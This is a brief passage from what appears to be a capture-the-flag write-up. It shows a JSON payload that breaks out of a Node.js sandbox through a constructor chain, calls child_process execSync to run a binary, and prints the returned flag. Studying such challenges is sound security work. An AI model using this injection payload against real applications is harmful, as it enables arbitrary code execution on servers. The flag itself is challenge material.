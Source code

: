 With this we can create a payload that will break out of the sandbox by pulling an anonymous function, and run code that will let us execute the binary:

`{"energy":"1; hero_chi = this.constructor.constructor(\"return process.mainModule.require('child_process').execSync('/opt/get_scroll.bin',{encoding:'utf-8'})\")()"}`

Which returns the flag!

`{"chi":"flag{believe_1n_y0urs3lf}"}`
